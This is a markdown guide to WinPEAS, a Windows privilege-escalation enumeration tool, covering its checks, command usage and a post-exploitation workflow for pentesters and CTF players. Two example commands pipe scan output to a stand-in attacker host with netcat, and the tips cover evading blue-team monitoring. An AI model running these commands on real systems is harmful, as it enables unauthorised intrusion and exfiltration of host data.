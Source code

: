 ```yaml
---
icon: windows
---
```


# WinPeas

## The WinPEAS Masterclass: Professional Windows Privilege Escalation & Post-Exploitation Enumeration

WinPEAS (Windows Privilege Escalation Awesome Script) is a comprehensive, automated post-exploitation tool for discovering privilege escalation paths and misconfigurations on Windows hosts. Its color-coded, sectioned output accelerates professional pentesting, red teaming, and CTF workflows by focusing attention on real-world exploitation opportunities.

***

### I. Environment Setup: Dynamic Variables

Prepare session variables for efficient WinPEAS deployment and output handling:

```bash
export TARGET_PATH="C:\\\\\\\\Temp\\\\\\\\winpeas.exe"
export OUTPUT_DIR="winpeas-results"
export OUTPUT_FILE="$OUTPUT_DIR/scan.txt"
export OUTPUT_HTML="$OUTPUT_DIR/scan.html"
export FILTER="null"             # Restrict output with filters such as "services", "scheduled tasks", etc.
export LISTENER_PORT=5555
export CUSTOM_OPTIONS=""         # e.g. "-a" for all checks, "-s" for stealth, "-h" for help

```

***

### II. Core Capabilities & Workflow

* **System Information Discovery:** OS version, architecture, build number, installed hotfixes, missing patches, and system security context.\[1]\[2]\[3]
* **User & Group Enumeration:** Finds active/disabled users, privilege groups, group memberships, logged-in sessions, and UAC settings.\[2]\[3]\[4]
* **File & Directory Permissions:** Highlights writable, insecure directories and files, including system paths.\[3]\[1]
* **Service & DLL Hijacking Checks:** Detects unquoted service paths, services with weak permissions, and DLL hijack opportunities—enabling exploitation by replacing binaries or DLLs.\[5]\[6]\[1]\[2]
* **Scheduled Task & Registry Checks:** Enumerates misconfigured scheduled tasks, insecure registry keys, AlwaysInstallElevated settings, auto-start entries, and potential credential exposure.\[6]\[1]\[3]
* **Credential Discovery:** Scans registry, autologon, Windows Vault, Credential Manager, and LSASS/SAM for cached or exposed credentials.\[4]\[3]
* **Defensive/Detection Info:** Reports firewall, AV/EDR status, logging configuration, and network connections for stealth and post-exploitation planning.\[3]\[4]
* **Color-Coded Output:** Red, yellow, and green output highlights critical, medium, and informational leads for rapid triage and exploitation.\[4]\[5]\[6]
* **No Admin Required (Fuller Results With Admin):** Runs well as user, but reveals deeper vectors with elevated privilege.\[3]

***

### III. Professional Usage Examples

#### 1. Run Interactive Scan & Save Output

```powershell
.\\\\winpeas.exe > "$OUTPUT_FILE"

```

#### 2. Stealth Scan (Minimal Output)

```powershell
.\\\\winpeas.exe -s > "$OUTPUT_FILE"

```

#### 3. Scan Only Specific Sections (e.g., Services)

```powershell
.\\\\winpeas.exe services > "$OUTPUT_FILE"

```

#### 4. Remote Output Collection (Reverse Shell/Lab)

```powershell
.\\\\winpeas.exe | nc attackerIP $LISTENER_PORT

```

#### 5. HTML Export for Triage/Reporting

_Parse the output with a powershell/html utility or use Winpeas++ if needed for more advanced export._

***

### IV. Advanced Techniques & Scenarios

* **Interpretation Workflow:** Focus on red and yellow findings relating to unquoted service paths, AlwaysInstallElevated, writable directories, weak service permissions, insecure registry settings, scheduled task misconfigs, and exposed credentials.\[6]
* **Automate Output Parsing:** Use grep/findstr/PowerShell, or log parsers to prioritize actionable vulnerabilities.
* **Run Under Different Users/Contexts:** Run as standard user then with admin escalation for maximal coverage.
* **OPSEC and Stealth:** Use stealth mode (-s) for light/noisy enumeration on active targets.
* **Combine with Post-Exploitation:** Use findings to select practical privesc exploits (DLL/replacement binary, MSI installers, service misconfigs).
* **Continuous Monitoring and Audit:** Schedule regular runs for drift analysis and new misconfig detection on critical Windows hosts.

***

### V. Real-World Workflow Example

1. **Upload WinPEAS and Run**

Transfer `winpeas.exe` to the target (via SMB, RDP, Meterpreter, or upload module):

```powershell
C:\\\\Temp\\\\winpeas.exe > C:\\\\Temp\\\\winpeas_scan.txt

```

1. **Stealth Scan; Output to Listener**

```powershell
C:\\\\Temp\\\\winpeas.exe -s | nc attackerIP 5555

```

1. **Review Output, Focus on Red/Yellow**

* Unquoted service path? DLL hijack? Weak permissions?
* Document, attempt exploit, submit for bug bounty, or add to incident report.

***

### VI. Pro Tips & Best Practices

* Prioritize high-severity (red/yellow) findings—these are most readily exploitable.
* Run WinPEAS with both user and administrator privileges for comparative analysis.
* Regularly update WinPEAS for new checks (print exploits, hotfixes, mitigation bypasses).
* Parse and aggregate findings for multi-host assessments.
* Combine with BloodHound/PowerUp for full AD privilege escalation mapping.
* Use stealth mode on blue team–monitored hosts.
* Respect engagement scope and keep audit logs for every scan.

***

This WinPEAS guide enables rapid, actionable, and comprehensive Windows privilege escalation enumeration, empowering red teamers, pentesters, and bug bounty hunters in their post-exploitation workflows.\[7]\[8]\[1]\[2]\[5]\[4]\[6]\[3]

Sources \[1] Privilege escalations on Windows with WinPEAS [https://www.manageengine.com/log-management/cyber-security/privilege-escalation-with-winpeas.html](https://www.manageengine.com/log-management/cyber-security/privilege-escalation-with-winpeas.html) \[2] How does WinPEAS help identify potential privilege ... [https://winpeas.com/how-does-winpeas-help-identify-potential-privilege/](https://winpeas.com/how-does-winpeas-help-identify-potential-privilege/) \[3] What Types of Information Does WinPEAS Gather from a ... [https://winpeas.com/what-types-of-information-does-winpeas-gather/](https://winpeas.com/what-types-of-information-does-winpeas-gather/) \[4] Lab 85 – How to enumerate for privilege escalation on a ... [https://www.101labs.net/comptia-security/lab-85-how-to-enumerate-for-privilege-escalation-on-a-windows-target-with-winpeas/](https://www.101labs.net/comptia-security/lab-85-how-to-enumerate-for-privilege-escalation-on-a-windows-target-with-winpeas/) \[5] WinPEAS - Windows Privilege Escalation Tool[https://winpeas.com](https://winpeas.com) \[6] How to Interpret WinPEAS Output to Prioritize Privilege ... [https://winpeas.com/how-to-interpret-winpeas-output-to-prioritize-escala/](https://winpeas.com/how-to-interpret-winpeas-output-to-prioritize-escala/) \[7] Post-Exploitation Privilege Escalation Tools | Ethical Hacking [https://armur.ai/ethical-hacking/post/post-1/post-exploitation-privilege-escalation-tools/](https://armur.ai/ethical-hacking/post/post-1/post-exploitation-privilege-escalation-tools/) \[8] PEASS - Privilege Escalation Awesome Scripts SUITE ... [https://github.com/peass-ng/PEASS-ng](https://github.com/peass-ng/PEASS-ng)
